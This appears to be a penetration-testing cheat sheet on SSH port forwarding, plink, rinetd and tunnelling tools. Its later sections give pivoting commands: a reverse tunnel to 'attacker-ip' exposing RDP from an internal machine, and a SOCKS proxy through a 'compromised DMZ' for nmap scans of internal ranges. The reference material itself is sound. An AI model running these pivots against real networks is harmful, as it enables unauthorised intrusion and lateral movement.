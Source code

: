 # Port Forwarding

```
Local:   ssh <gateway> -L <local port to listen>:<remote host>:<remote port>
Remote:  ssh <gateway> -R <remote port to bind>:<local host>:<local port>
Dynamic: ssh <gateway> -D <port to bind>

Local:   plink.exe <gateway> -L <local port to listen>:<remote host>:<remote port>
Remote:  plink.exe <gateway> -R <remote port to bind>:<local host>:<local port>
Dynamic: plink.exe <gateway> -D <port to bind>
```
## Local Port Forwarding

```
ssh -L <local-port-to-listen>:<remote-host>:<remote-port> <gateway>
```

#### Allow connections to a specific blocked server.

From work:
```
ssh -L 9001:banned-site.com:80 user@home
curl http://localhost:9001
```

Says we’re forwarding our local port 9001 to banned-site.com:80, through the gateway `home` (port 22).

![](https://chamibuddhika.files.wordpress.com/2012/03/localportforwarding.jpg)

```
ssh -L 9001:banned:22 user@home
ssh -p 9001 localhost
```

![](https://chamibuddhika.files.wordpress.com/2012/03/sshsessionforwarding.jpg)

Allow remote connections to local port forwards (listening on all interfaces)
```
ssh -L 9001:banned:22 user@home -g
ssh -p 9001 work_machine    #Remotely
```

#### Access a port on your server which can only be accessed from localhost and not remotely.

From local machine:
```
ssh -L 9000:localhost:5432 user@server
psql -h localhost -p 9000
```

Server acts as the gateway and binds server's port 5432 to local port 9000.

## Remote Port Forwarding

#### Allow remote access to restricted network.

From work:
```
ssh -R 9001:intra-ssh-server:22 user@home
```
Server will bind port 9001 on `home` machine to listen for incoming requests which would subsequently be routed through the created SSH channel. Connecting to `localhost:9001` in `home` will forward user to intra:22

From home:
```
ssh -p 9001 localhost
```

![](https://chamibuddhika.files.wordpress.com/2012/03/remoteportforwarding.jpg)

Add `GatewayPorts yes` to `sshd_config` to listening on all interfaces.

#### Allow public access to a local resource through a public server.

```
ssh -R 9000:localhost:3000 user@public_sever
```
```
sudo vim /etc/ssh/sshd_config
GatewayPorts yes
sudo service ssh restart
```

## Dynamic port forwarding

One local port for tunneling data to all remote destinations (SOCKS protocol)

From work:
```
ssh -D 9001 home
```

![](https://chamibuddhika.files.wordpress.com/2012/03/dynamicportforwarding.jpg)

## Tips
Monitoring Tunnels
```
netstat -tunelp
```

Avoid TTL
```
-nNT
```

## rinetd

When outbound only 80 / 443 use port forwarding
```
nano /etc/rinetd.conf
ip1 80 ip2 3389
```
```
bindaddress bindport connectaddress connectport
```  

(ip1:80 will proxy for ip2:3389)

## Creating reverse SSH client to tunnel-out remote desktop port

Creating Tunnel


FROM remote non routable machine
```
pling -l root -pw password attacker-ip -R 3390:127.0.0.1:3389  
```
> localhost 3389 to attacker ip 3389

FROM attacker's machine
```
rdesktop localhost:3390
```

## SSH Dynamic Port Forwarding (compromised DMZ used to scan internal IPs)

Create local SOCS4 proxy:

From attacker's machine (compromised DMZ)
```
ssh -D 8080 root@DMZ-IP

netstat -antp | grep 8080

/etc/proxychains.conf
socks4 127.0.0.1 8080
proxychains nmap -p 3389 -ST -Pn non-routable-remote-ip-range --oepn

proxychains rdesktop rdp-ip-in-non-routable-range
```

## Tools
- XFLTReaT tunnelling framework: https://github.com/earthquake/XFLTReaT
```
TCP
UDP
ICMP
SOCKS v4, 4a, 5
HTTP CONNECT
SCTP (by Darren Martyn @info_dox)
WebSocket
DNS (A/CNAME, PRIVATE, NULL) - Proof of Concept
RDP (Windows only)
```
- https://github.com/sshuttle/sshuttle
- https://github.com/klsecservices/rpivot
- https://github.com/wolfSSL/wolfssh
- https://github.com/jpillora/chisel

## References

### Summarized References:
- https://unix.stackexchange.com/questions/115897/whats-ssh-port-forwarding-and-whats-the-difference-between-ssh-local-and-remot
- https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/
- http://www.debianadmin.com/howto-use-ssh-local-and-remote-port-forwarding.html
- https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html

### New References:
- https://vimeo.com/54505525
